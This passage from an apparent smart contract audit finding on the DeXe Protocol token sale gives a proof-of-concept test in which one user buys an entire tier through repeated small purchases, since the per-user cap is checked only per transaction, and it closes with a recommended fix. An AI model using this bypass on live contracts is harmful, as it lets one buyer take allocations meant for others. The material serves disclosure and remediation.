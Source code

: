 ```javascript
            // one user should at most be able to buy wei(100),
            // or 10% of the total tier.
            //
            // any user can bypass this limit by doing multiple
            // smaller buys to buy the entire tier.
            //
            // start: user has bought no tokens
            let TIER8 = 8;
            let purchaseView = userViewsToObjects(await tsp.getUserViews(OWNER, [TIER8]))[0].purchaseView;
            assert.equal(purchaseView.claimTotalAmount, wei(0));

            // if the user tries to buy it all in one txn,
            // maxAllocationPerUser is enforced and the txn reverts
            await truffleAssert.reverts(tsp.buy(TIER8, purchaseToken1.address, wei(250)), "TSP: wrong allocation");

            // but user can do multiple smaller buys to get around the
            // maxAllocationPerUser check which only checks each
            // txn individually, doesn't factor in the total amount
            // user has already bought
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));
            await tsp.buy(TIER8, purchaseToken1.address, wei(25));

            // end: user has bought wei(1000) tokens - the entire tier!
            purchaseView = userViewsToObjects(await tsp.getUserViews(OWNER, [TIER8]))[0].purchaseView;
            assert.equal(purchaseView.claimTotalAmount, wei(1000));

            // attempting to buy more fails as the entire tier
            // has been bought by the single user
            await truffleAssert.reverts(
              tsp.buy(TIER8, purchaseToken1.address, wei(25)),
              "TSP: insufficient sale token amount"
            );
          });
```

To run the PoC: `npx hardhat test --grep "bypass token sale maxAllocationPerUser"`

**Recommended Mitigation:** `libs/gov/token-sale-proposal/TokenSaleProposalBuy.sol` [L115-120](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/libs/gov/token-sale-proposal/TokenSaleProposalBuy.sol#L115-L120) should add the total amount already purchased by the user in the current tier to the current amount being purchased in the same tier, and ensure this total is `<= maxAllocationPerUser`.
